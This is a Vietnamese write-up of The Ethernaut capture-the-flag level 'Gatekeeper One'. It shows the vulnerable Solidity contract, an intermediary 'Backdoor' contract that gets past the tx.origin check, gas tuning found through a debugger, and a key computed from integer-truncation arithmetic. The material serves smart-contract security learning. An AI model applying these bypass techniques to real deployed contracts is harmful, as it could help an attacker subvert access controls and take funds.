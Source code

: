 ```yaml
---
layout: post
title: "The Ethernaut: 13 - Gatekeeper One"
mathjax: true
---
```

# 13. Gatekeeper One 　★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  require(msg.gas % 8191 == 0);
  _;
}
```

Đây chính là điều kiện khó nhằn nhất của bài, ta phải có kiến thức về debug contract để vượt qua nó. Trong bài này ta sẽ sử dụng Remix IDE để thực hiện.

Ta chuẩn bị contract trung gian như sau:

```js
contract Backdoor {
    GatekeeperOne gk;

    constructor (address _target) {
        gk = GatekeeperOne(_target);
    }

    function enterGate2() public {
        gk.enter.gas(500000)(0x12345678);
    }
}
```

Compile với _target là địa chỉ instance của bạn. Nếu muốn test nhanh thì trên Remix chúng ta có thể để môi trường là `JavaScript VM` và compile lại cả `GateKeeperOne` và `Backdoor` contract.

Ta sẽ set cho hàm enterGate2 một số lượng gas đủ lớn là `500000` gas, `_key` thì tuỳ ý vì ta chưa động đến *gateThree*. Ở đây tuy transaction gần như chắc chắn sẽ fail, tuy nhiên từ đó, ta sẽ tiến hành debug và quan sát xem cho đến khi check điều kiện `require(msg.gas % 8191 == 0);` của gate 2 chúng ta đã tốn mất bao nhiêu gas, để theo đó có thể setup số lượng gas chính xác nhất

![png]({{ site.url }}/assets/images/Gascost.png)

Ta thấy rằng cho đến bước 71, tức lúc debug chỉ vào `msg.gas`, số lượng gas hiện tại là 499760 gas, step này tốn 2 gas, vậy tổng số lượng gas đã mất là `500000 - 499760 + 2 = 242`

Do đó ta chỉ cần điều chỉnh số lượng gas là `242 + 8191*100=819342` là đủ, sở dĩ nhân với 100 để đảm bảo còn đủ gas để qua tiếp gate 3 mà vẫn qua được gate 2:

```js
function enterGate2() public {
  gk.enter.gas(819342)(0x12345678);
}
```

compile và chạy lại, ta thấy vẫn lỗi, tất nhiên rồi vì đã qua gate3 đâu, tuy nhiên nếu bật debug lên thì ta thấy là đã qua gate 2 rồi. Ngon.

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint32(_gateKey) == uint16(_gateKey));
  require(uint32(_gateKey) != uint64(_gateKey));
  require(uint32(_gateKey) == uint16(tx.origin));
  _;
}
```

Mấy điều kiện khá là loằng ngoằng, haiz, đầu vào là một tham số `_gateKey` có kiểu dữ liệu là bytes8, tức 16 kí tự hexa.

Trước hết ta nhắc lại một lượt các giới hạn số nguyên trong solidity:

- uint16: 0 tới 65535 ($$2^{16} - 1$$)
- uint32: 0 tới 4294967295 ($$2^{32} - 1$$)
- uint64: 0 tới 18446744073709551615 ($$2^{64} - 1$$)

Khi ép kiểu thì nếu số đó lớn hơn giới hạn của kiểu dữ liệu, thì sẽ quay vòng trở lại từ số bé nhất.

Có nghĩa là, giả sử như ta ép kiểu uint16(x) thì kết quả ta nhận được sẽ là x%65536

OK, quay trở lại bài toán, điều kiện thứ 3:

```js
require(uint32(_gateKey) == uint16(tx.origin));
```

ở đây `tx.origin` chính là địa chỉ của mình trên metamask. Ở đây mình sử dụng địa chỉ của mình, các bạn hãy thay tương ứng với địa chỉ của các bạn.

Do việc tính toán với số lớn của javascript hơi củ chuối, nên mình dùng python để tính toán

Trước tiên ta sẽ tính `uint16(tx.origin)`

```python
>>>int('0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b', 16) % 2**16
55659
```

Vậy thì từ `require(uint32(_gateKey) == uint16(tx.origin));` ta có `_gateKey` sẽ có dạng $$2^{32}*x + 55659$$

Điều kiện đầu tiên: `require(uint32(_gateKey) == uint16(_gateKey));`. Ta thấy rằng với dạng $$2^{32}*x + 55659$$ thì điều kiện trên rõ ràng luôn đúng vì

\\[
(2^{32} \times x + 55659) ~ mod ~ 2^{32} = (2^{32} \times x + 55659) ~ mod ~ 2^{16} = 55659
\\]

nghĩa là chỉ cần một số đi quá chu kì của $$2^{32}$$ một lượng nhỏ hơn $$2^{16}$$ là ok

Điều kiện thứ 2: `require(uint32(_gateKey) != uint64(_gateKey));`. Để đạt được điều kiện này ta chỉ cần một số đi quá giới hạn của `uint32` nhưng chưa tới giới hạn của `uint64`, khi đó số đó sẽ quay trở lại rất nhỏ với `uint32` nhưng vẫn còn rất lớn với `uint64`, thật vậy

\\[
(2^{32} + 55659) ~ mod ~ 2^{64} = 4295022955
\\\
(2^{32} + 55659) ~ mod ~ 2^{32} = 55659
\\]

Vậy nên ta chọn luôn số $$2^{32} + 55659$$ và chuyển nó qua dạng `bytes8` là ok

```python
>>> 2**32 + 55659
4295022955
>>>hex(4295022955)
'0x10000d96b'
```

đổi tên enterGate2 thành `enter`, thay *key* bằng chuỗi bên trên và submit

```js
function enter() public {
  gk.enter.gas(819342)(0x10000d96b);
}
```

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

## Bình luận

Đây là một bài tập hết sức khó nhằn, yêu cầu rất nhiều kiến thức tổng hợp. Từ kiến thức về msg.sender, tx.origin, cho đến overflow dữ liệu, đồng thời phải biết cả debug transaction, hiểu về khái niệm *gas* trong giao dịch. Thực sự mình đánh giá đây là bài tập khó nhất của chuỗi CTF này.
